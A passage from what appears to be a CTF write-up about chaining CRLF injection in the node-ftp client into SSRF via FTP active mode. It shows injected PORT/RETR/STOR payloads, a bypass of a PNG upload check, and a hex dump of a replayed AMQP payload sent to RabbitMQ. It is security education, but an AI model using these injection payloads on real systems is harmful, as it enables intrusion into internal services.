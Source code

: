 Therefore only active download or passive upload can work here. For passive upload, because the vulnerable SSRF command for client is download (STOR), the client will not initial the connection to the IP.

But for active download, if we can make the FTP client specify the SSRF target and send RETR, the server will send the file to the target.

The [ftp-client](https://github.com/mscdex/node-ftp) is vulnerable to CRLF injections. We can easily craft a payload to trick the server to send `test.txt` to `127.0.0.1:1024`.

```
await ftp_client.get("foo\r\nbar\r\nPORT 127,0,0,1,4,0\r\nRETR test.txt\r\n");
```

When uploading file, the server will check whether the first a few bytes starts with PNG header. This can be easily bypassed via FTP active download. The following payload will track the server to download `255.255.255.255:1024` and save to `test.txt`. (It seems like some teams didn't bypass this but still managed to solve the challenge.)

```
await ftp_client.get("foo\r\nbar\r\nPORT 255,255,255,255,4,0\r\nSTOR text.txt\r\n");
```

Okay, we have a relatively powerful SSRF now. There is no need to smuggle any protocol. We can send any TCP content we want!

#### Craft the SSRF Payload

We have two options here:

1. rabbit 5672: AMQP protocol
2. rabbit 15672: HTTP management server for rabbitMQ.

We choose the first one. The AMQP protocol seems to be required interaction, but it can still work when I just record and replay all the payload together. For option 2 you can refer to other [write-ups in CTFTime](https://ctftime.org/task/11323).

We use wireshark to record the payload to rabbit port 5672.

```
00000000: 414d 5150 0000 0901 0100 0000 0001 3800  AMQP..........8.
00000010: 0a00 0b00 0001 1607 7072 6f64 7563 7453  ........productS
00000020: 0000 0007 616d 7170 6c69 6207 7665 7273  ....amqplib.vers
00000030: 696f 6e53 0000 0005 302e 352e 3508 706c  ionS....0.5.5.pl
00000040: 6174 666f 726d 5300 0000 104e 6f64 652e  atformS....Node.
00000050: 4a53 2076 3133 2e31 332e 300b 696e 666f  JS v13.13.0.info
00000060: 726d 6174 696f 6e53 0000 0023 6874 7470  rmationS...#http
00000070: 3a2f 2f73 7175 6172 656d 6f2e 6769 7468  ://squaremo.gith
00000080: 7562 2e69 6f2f 616d 7170 2e6e 6f64 650c  ub.io/amqp.node.
00000090: 6361 7061 6269 6c69 7469 6573 4600 0000  capabilitiesF...
000000a0: 8c12 7075 626c 6973 6865 725f 636f 6e66  ..publisher_conf
000000b0: 6972 6d73 7401 1a65 7863 6861 6e67 655f  irmst..exchange_
000000c0: 6578 6368 616e 6765 5f62 696e 6469 6e67  exchange_binding
000000d0: 7374 010a 6261 7369 632e 6e61 636b 7401  st..basic.nackt.
000000e0: 1663 6f6e 7375 6d65 725f 6361 6e63 656c  .consumer_cancel
000000f0: 5f6e 6f74 6966 7974 0112 636f 6e6e 6563  _notifyt..connec
00000100: 7469 6f6e 2e62 6c6f 636b 6564 7401 1c61  tion.blockedt..a
00000110: 7574 6865 6e74 6963 6174 696f 6e5f 6661  uthentication_fa
00000120: 696c 7572 655f 636c 6f73 6574 0105 504c  ilure_closet..PL
00000130: 4149 4e00 0000 0a00 7465 7374 0074 6573  AIN.....test.tes
00000140: 7405 656e 5f55 53ce 0100 0000 0000 0c00  t.en_US.........
00000150: 0a00 1f07 ff00 0010 0000 3cce 0100 0000  ..........<.....
00000160: 0000 0800 0a00 2801 2f00 00ce 0100 0100  ......(./.......
00000170: 0000 0500 1400 0a00 ce01 0001 0000 000e  ................
00000180: 003c 0028 0000 0005 656d 6169 6c00 ce02  .<.(....email...
00000190: 0001 0000 0012 003c 0000 0000 0000 0000  .......<........
000001a0: 0051 2000 0000 0000 ce03 0001 0000 0051  .Q ............Q
000001b0: 7b22 746f 223a 2262 616c 736e 6374 6640  {"to":"balsnctf@
000001c0: 6578 616d 706c 652e 636f 6d22 2c22 7465  example.com","te
000001d0: 7874 223a 2250 574e 4544 222c 2261 7474  xt":"PWNED","att
```